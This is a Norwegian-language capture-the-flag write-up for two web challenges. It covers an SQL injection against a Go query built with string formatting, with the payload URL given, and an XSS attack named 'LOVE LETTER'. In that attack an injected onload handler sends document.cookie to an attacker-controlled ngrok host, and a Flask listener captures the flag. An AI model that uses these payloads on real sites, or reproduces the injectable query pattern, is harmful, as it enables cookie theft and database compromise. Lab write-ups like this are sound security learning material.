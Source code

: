 ### Oppgave

```go
textSearch = strings.Replace(textSearch, "'", "''", len(textSearch)/2)

rows, err := db.Query(fmt.Sprintf("SELECT data FROM notes WHERE public = 1 AND data LIKE '%s'", textSearch))
```

Hele oppgaven finnes [her](web/fun_sql/challenge.md)

### Løsning

http://ctf.wackattack.eu:5020/?text=''''''''''''''%20OR%201==1---

<details><summary>Flagg</summary></details>


## LOVE LETTER

### Oppgave

Hele oppgaven finnes [her](web/love_letter/challenge.md)

### Løsning

Python med ngrok for å ta imot request:
```bash
ngrok http 5000
```
```py
from flask import Flask
app = Flask(__name__)

@app.route('/')
def index():
    return "Thanks!"

if __name__ == '__main__':
    app.run(port=5000)  # Run the app on port 5000
```

Vi legger inn en XSS som vi kan nå etterpå. `Message` kan være hva som helst, men vi limer dette inn i navn:

```js
" onload=fetch('https://d266-158-112-20-142.ngrok-free.app'?+document.cookie)
```

Etter at vi har plassert brevet kan vi nå det fra review siden slik:

```bash
`curl -X POST http://ctf.wackattack.eu:5021/review/23c3afae-ee5f-447e-a0cd-afc5452a09ac`
```

Requesten trigger da en request til vår tjener gjennom XSS og ngrok. Flagget dukker da opp i Flask-loggen:
`[19/Oct/2024 01:57:13] "GET /?flag=wack{******} HTTP/1.1" 200 -`
